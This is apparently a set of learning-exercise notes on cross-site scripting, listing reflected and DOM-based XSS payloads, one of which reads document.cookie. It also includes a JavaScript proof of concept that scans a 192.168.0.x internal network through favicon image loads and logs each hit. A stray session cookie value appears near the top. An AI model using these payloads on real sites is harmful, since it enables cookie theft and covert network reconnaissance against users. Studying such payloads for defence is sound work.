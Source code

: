 connect.sid s%3Aat0YYHmITnfNSF0kM5Ne-ir1skTX3aEU.yj1%2FXoaxe7cCjUYmfgQpW3o5wP3O8Ae7YNHnHPJIasE

### Reflected XSS

`<script>alert("hello")</script>`

`<script>alert(window.location.hostname)</script>`



### DOM based XSS

`test" onmouseover="alert(document.cookie)" `  

`test" onmouseover="alert(document.body.style.backgroundColor='red')"`


IP and Port Scanning
	
For example, a website could try to find if your router has a web interface at 192.168.0.1 by:

`<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">`

Please keep in mind this is a proof of concept and there are many factors that will effect results such as response times, firewall rules, cross origin policies and more. Our browsers can conduct a basic network scan and infer about existing IP's, hostnames and services. As this is a learning exercise assume the factors do not apply here.

The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255
	
```html
<script>
 for (let i = 0; i < 256; i++) {
  let ip = '192.168.0.' + i

  let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
  document.body.innerHTML += code
 }
</script> 
```


`<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">`
```html
 <script>
 for (let i = 0; i < 256; i++) { // This is looping from 0 to 255
  let ip = '192.168.0.' + i // Creates variable for forming IP
  // Creating an image element, if the resource can load, it logs to the /logs page.
  let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
  document.body.innerHTML += code // This is adding the image element to the webpage
 }
</script> 
```


After you've found an valid IP you can then use the same method above and include a port number. However, the method described here only works with web servers (as its looking for the favicon image). A more detailed port scanner can be found here. As previously stated, this page is a proof of concept, you can create scripts which have much more capability.
